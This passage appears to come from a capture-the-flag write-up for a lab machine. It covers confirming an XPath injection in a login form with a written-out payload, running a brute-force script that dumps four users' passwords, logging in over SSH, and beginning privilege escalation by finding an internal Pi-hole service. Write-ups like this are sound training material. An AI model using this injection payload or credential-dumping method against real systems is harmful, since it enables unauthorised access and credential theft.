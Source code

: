As no other **SQL Injection** strings work, this seems to be a **XPATH Injection** vulnerability and the following injection proofs that:
```
Username=admin&Password=' and 1=0] | //*['1'='1
```

Now that we know what kind of vulnerability this is, the credentials for the users may be dumped.
The password can be obtained by using a **Brute-Force attack** and asking the web service for every character one after another.

This can be done with the **Burpsuite Intruder** or a custom script that can be found in this repository:
```
python3 unbalanced_bruteforce.py
```
```
Password Length for rita is 11
Password for rita is: password01!

Password Length for jim is 16
Password for jim is: stairwaytoheaven

Password Length for bryan is 23
Password for bryan is: ireallyl0vebubblegum!!!

Password Length for sarah is 10
Password for sarah is: sarah4evah
```

All credentials can be tested out on SSH, but only the password from _bryan_ will work:
```
ssh bryan@10.10.10.200
```

## Privilege Escalation

In the home directory of _bryan_ is a text file called _TODO_:
```
(...)
Pi-hole
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

According to the text file, there is **Pi-hole** running that listens on localhost.
By checking the **ARP table** of the host with `ip neigh`, the only unknown IP is 172.31.11.3.

Ensuring the IP hosts **Pi-hole** with a `curl` request on port 80:
```
curl 172.31.11.3
```
```
(...)
</head><body id='splashpage'><img src='/admin/img/logo.svg'/><br/>Pi-<b>hole</b>: Your black hole for Internet advertisements<br><a href='/admin'>Did you mean to go to the admin panel?</a></body></html>
```
